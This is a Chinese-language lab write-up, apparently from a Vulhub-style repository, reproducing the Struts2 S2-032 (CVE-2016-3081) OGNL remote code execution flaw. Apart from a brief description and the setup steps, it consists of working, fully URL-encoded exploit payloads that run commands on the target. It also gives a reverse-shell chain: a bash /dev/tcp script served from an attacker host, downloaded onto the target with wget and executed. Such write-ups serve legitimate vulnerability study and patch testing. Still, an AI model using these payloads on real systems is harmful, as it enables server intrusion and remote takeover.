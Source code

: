 # Struts2 S2-032 远程代码执行漏洞 CVE-2016-3081

## 漏洞描述

Struts2在开启了动态方法调用（Dynamic Method Invocation）的情况下，可以使用`method:<name>`的方式来调用名字是`<name>`的方法，而这个方法名将会进行OGNL表达式计算，导致远程命令执行漏洞。

漏洞详情:

- https://cwiki.apache.org/confluence/display/WW/S2-032
- https://www.cnblogs.com/mrchang/p/6501428.html

## 漏洞影响

影响版本: Struts 2.3.20 - Struts Struts 2.3.28 (except 2.3.20.3 and 2.3.24.3)

## 环境搭建

Vulhub执行以下命令启动s2-032测试环境：

```
docker-compose build
docker-compose up -d
```

环境启动后，访问`http://your-ip:8080`即可看到默认页面。

## 漏洞复现

直接请求如下URL，即可执行`id`命令：

```
http://your-ip:8080/index.action?method:%23_memberAccess%3d@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS,%23res%3d%40org.apache.struts2.ServletActionContext%40getResponse(),%23res.setCharacterEncoding(%23parameters.encoding%5B0%5D),%23w%3d%23res.getWriter(),%23s%3dnew+java.util.Scanner(@java.lang.Runtime@getRuntime().exec(%23parameters.cmd%5B0%5D).getInputStream()).useDelimiter(%23parameters.pp%5B0%5D),%23str%3d%23s.hasNext()%3f%23s.next()%3a%23parameters.ppp%5B0%5D,%23w.print(%23str),%23w.close(),1?%23xx:%23request.toString&pp=%5C%5CA&ppp=%20&encoding=UTF-8&cmd=id
```

![image-20220302104528043](images/202203021045198.png)

### 反弹shell

编写shell脚本并启动http服务器：

```
echo "bash -i >& /dev/tcp/192.168.174.128/9999 0>&1" > shell.sh
python3环境下：python -m http.server 80
```

上传shell.sh文件的命令为：

```
wget 192.168.174.128/shell.sh
```

上传shell.sh文件的Payload为：

```
http://your-ip:8080/index.action?method:%23_memberAccess%3d@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS,%23res%3d%40org.apache.struts2.ServletActionContext%40getResponse(),%23res.setCharacterEncoding(%23parameters.encoding%5B0%5D),%23w%3d%23res.getWriter(),%23s%3dnew+java.util.Scanner(@java.lang.Runtime@getRuntime().exec(%23parameters.cmd%5B0%5D).getInputStream()).useDelimiter(%23parameters.pp%5B0%5D),%23str%3d%23s.hasNext()%3f%23s.next()%3a%23parameters.ppp%5B0%5D,%23w.print(%23str),%23w.close(),1?%23xx:%23request.toString&pp=%5C%5CA&ppp=%20&encoding=UTF-8&cmd=wget%20192.168.174.128/shell.sh
```

执行shell.sh文件的命令为：

```
bash shell.sh
```

执行shell.sh文件的Payload为：

```
http://your-ip:8080/index.action?method:%23_memberAccess%3d@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS,%23res%3d%40org.apache.struts2.ServletActionContext%40getResponse(),%23res.setCharacterEncoding(%23parameters.encoding%5B0%5D),%23w%3d%23res.getWriter(),%23s%3dnew+java.util.Scanner(@java.lang.Runtime@getRuntime().exec(%23parameters.cmd%5B0%5D).getInputStream()).useDelimiter(%23parameters.pp%5B0%5D),%23str%3d%23s.hasNext()%3f%23s.next()%3a%23parameters.ppp%5B0%5D,%23w.print(%23str),%23w.close(),1?%23xx:%23request.toString&pp=%5C%5CA&ppp=%20&encoding=UTF-8&cmd=bash%shell.sh
```

成功接收反弹shell：

![image-20220302104814120](images/202203021048206.png)